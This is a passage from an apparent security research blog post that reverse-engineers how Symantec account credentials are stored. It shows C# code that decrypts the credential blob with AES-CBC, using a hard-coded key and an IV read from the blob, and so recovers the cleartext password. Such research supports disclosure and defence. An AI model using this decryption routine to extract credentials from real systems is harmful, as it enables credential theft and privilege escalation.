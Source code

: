 Fantastic! It Worked! Well, almost...

![First ACC decryption attempt](/assets/posts/2025-06-11-checking-symantec-account-credentials-privesccheck/acc-decryption-attempt-1.png)
*First ACC decryption attempt*

No exception is thrown this time, which indicates that both the input data and the key are correct. However, despite the end of the password being valid, there are 16 bytes of garbage data at the beginning of the cleartext. This typically indicates that the Initialization Vector (IV) is incorrect. Where is this damn IV then?!

Alright, where do you usually store an IV? The answer: right before the encrypted data! It turns out the decryption routine skips the first 18 bytes of the base64-encoded blob, which leaves enough space for a 16-byte IV. How convenient!

To test this theory, I removed the default IV value, and added a couple lines of code to retrieve the value from the base64-encoded blob instead.

```csharp
byte[] input_data = System.Convert.FromBase64String(args[0]);
byte[] key = System.Convert.FromBase64String("+us3+eX22qtRmFThHxiXKSFY1kxDFx0esu+ly5y3NrA=");
//byte[] iv = System.Convert.FromBase64String("8o//+UbWvGhCUDuUAf5lhg==");

int encLength = input_data.Length - 64;
int encryptedBufferSize = encLength - 18;

byte[] processedData = new byte[encryptedBufferSize];
Buffer.BlockCopy(input_data, 18, processedData, 0, encryptedBufferSize);

// Retrieve the IV from the base64-encoded blob.
// Start at offset 2, and copy 16 bytes to IV buffer.
byte[] iv = new byte[16];
Buffer.BlockCopy(input_data, 2, iv, 0, 16);

using (AesCryptoServiceProvider aes = new AesCryptoServiceProvider()) {

    aes.Key = key;
    aes.IV = iv;
    aes.Mode = CipherMode.CBC;
    aes.Padding = PaddingMode.PKCS7;

    ICryptoTransform decryptor = aes.CreateDecryptor(aes.Key, aes.IV);

    using (MemoryStream msDecrypt = new MemoryStream(processedData)) {
        using (CryptoStream csDecrypt = new CryptoStream(msDecrypt, decryptor, CryptoStreamMode.Read)) {
            using (StreamReader srDecrypt = new StreamReader(csDecrypt)) {
                Console.WriteLine("Decrypted data: " + srDecrypt.ReadToEnd());
            }
        }
    }
}
```
